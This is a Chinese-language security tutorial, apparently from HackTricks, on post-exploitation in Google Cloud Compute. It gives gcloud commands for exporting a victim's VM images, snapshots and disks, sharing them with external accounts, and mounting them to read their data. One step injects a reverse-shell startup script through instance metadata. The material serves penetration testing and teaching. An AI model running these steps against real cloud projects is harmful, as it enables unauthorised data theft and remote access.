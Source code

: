 # GCP - 计算后渗透

{{#include ../../../banners/hacktricks-training.md}}

## 计算

有关计算和 VPC（网络）的更多信息，请查看：

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### 本地导出和检查镜像

这将允许攻击者**访问已存在镜像中包含的数据**或**创建正在运行的虚拟机的新镜像**，并在不访问正在运行的虚拟机的情况下访问其数据。

可以将虚拟机镜像导出到一个存储桶，然后使用以下命令下载并在本地挂载：
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
为了执行此操作，攻击者可能需要对存储桶的权限，并且肯定需要对 **cloudbuild** 的权限，因为这是将被请求执行导出的 **服务**。\
此外，为了使其正常工作，codebuild SA 和 compute SA 需要特权权限。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` 需要：

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

而 SA `<project-id>-compute@developer.gserviceaccount.com` 需要：

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### 本地导出和检查快照和磁盘

无法直接导出快照和磁盘，但可以 **将快照转换为磁盘，将磁盘转换为映像**，并按照 **前一部分**，将该映像导出以便在本地检查。
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### 检查创建虚拟机的镜像

为了访问**存储在镜像中的数据**或**运行中的虚拟机**，攻击者**创建了一个镜像**，可以授予外部账户对该镜像的访问权限：
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
然后从中创建一个新的虚拟机：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
如果您无法通过镜像授予外部帐户访问权限，您可以在受害者的项目中使用该镜像启动一个虚拟机，并**使元数据执行反向 shell**以访问镜像，添加参数：
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### 检查快照/磁盘并将其附加到虚拟机

为了访问**存储在磁盘或快照中的数据，您可以将快照转换为磁盘，将磁盘转换为映像，并遵循之前的步骤。**

或者您可以**授予外部帐户对磁盘的访问权限**（如果起点是快照，则授予对快照的访问权限或从中创建磁盘）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**将磁盘** 附加到实例：
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
挂载磁盘到虚拟机内：

1.  **SSH 进入虚拟机**：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **识别磁盘**：进入虚拟机后，通过列出磁盘设备来识别新磁盘。通常可以找到它作为 `/dev/sdb`、`/dev/sdc` 等。
3.  **格式化并挂载磁盘**（如果是新磁盘或原始磁盘）：

- 创建挂载点：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- 挂载磁盘：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

如果您**无法将快照或磁盘的访问权限授予外部项目**，您可能需要**在与快照/磁盘相同项目的实例内执行这些操作**。

{{#include ../../../banners/hacktricks-training.md}}
